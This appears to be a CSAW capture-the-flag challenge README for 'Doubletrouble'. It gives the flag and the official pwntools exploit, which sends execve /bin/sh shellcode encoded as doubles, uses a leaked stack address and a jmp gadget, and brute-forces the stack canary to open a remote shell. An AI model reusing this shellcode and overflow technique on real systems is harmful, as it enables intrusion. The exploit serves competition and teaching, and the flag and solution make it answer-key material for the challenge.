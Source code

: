# Doubletrouble

Shellcoding with doubles

## Flag
{4_d0ub1e_d0ub1e_3ntr3ndr3} make it 1337ish

## Description
i didn't have a flag in mind, and didn't really have a description, although I could come
        up with one. Do you have any theme you are trying to stick with?
credit: just say nsnc anywhere
Hidden in a comment in the source code, I don't care.
Feel free to take liberties with the challenge description, but at least use one pun.

## solution

officail exp:

```python
#!/usr/bin/env python2
from pwn import *
import binascii
import codecs

"""
NOTE: Must be ran multiple times to brute force stack canary.
"""


def hextodouble(hexstring):
    print(len(hexstring))
    return str("%.16E" % struct.unpack("!d", codecs.decode(hexstring, "hex"))[0])


# context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

# p = process("./doubletrouble")
p = remote("pwn.chal.csaw.io", 9002)

stack_address = p.readline()[2:-1].strip()

# shellcode
shellcode1 = "fcfc56f631580b6a"
shellcode2 = "f9f9f968732f2f68"
shellcode3 = "f8e3896e69622f68"
shellcode4 = "f7fa80cdca89c931"
shellcodesortedbelowthis = "f7f94e24f7f94e24"

p.sendline("64")
for i in range(4):
    p.sendline(hextodouble(shellcodesortedbelowthis))
p.sendline("-11")
for i in range(57 - 4):  # subtract 4 for shellcode
    p.sendline(hextodouble(shellcodesortedbelowthis))

p.sendline(hextodouble(shellcode1))
p.sendline(hextodouble(shellcode2))
p.sendline(hextodouble(shellcode3))
p.sendline(hextodouble(shellcode4))

jmpebp = "080497b800000000"  # 4.86192279173924203790903928618E-270
shellcode_location = (
    "080497b8" + stack_address
)  # that first part is pading to be sorted in the right spot
print("shellcode_location: ")
print(shellcode_location)
print(hextodouble(shellcode_location))

p.sendline(hextodouble(shellcode_location))
p.sendline(hextodouble(jmpebp))

p.sendline("ls")
# p.recvuntil("flag")
p.interactive()

```